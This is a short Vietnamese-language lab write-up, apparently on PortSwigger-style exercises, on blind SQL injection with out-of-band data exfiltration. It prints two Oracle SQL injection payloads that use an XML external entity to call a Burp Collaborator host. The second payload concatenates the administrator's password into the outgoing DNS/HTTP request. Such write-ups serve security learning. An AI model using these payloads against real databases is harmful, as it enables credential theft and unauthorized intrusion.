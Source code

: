 Thấy ở trong Burp Collaborator nhận được request → thành công

---

### Blind SQL injection with out-of-band data exfiltration

Test OOB bằng payload `' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "[http://laz0rv8t5zdlkkcsloed5ezq3h97xw.burpcollaborator.net/](http://laz0rv8t5zdlkkcsloed5ezq3h97xw.burpcollaborator.net/)"> %25remote%3b]>'),'/l') FROM dual --`

![Untitled](writeup-media/Untitled%2059.png)

Thấy ở trong Burp Collaborator nhận được request → ta có thể thực hiện trích xuất dữ liệu thông qua OOB. Gửi payload `' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.laz0rv8t5zdlkkcsloed5ezq3h97xw.burpcollaborator.net/"> %25remote%3b]>'),'/l') FROM dual --` để trích xuất password của user `administrator`.
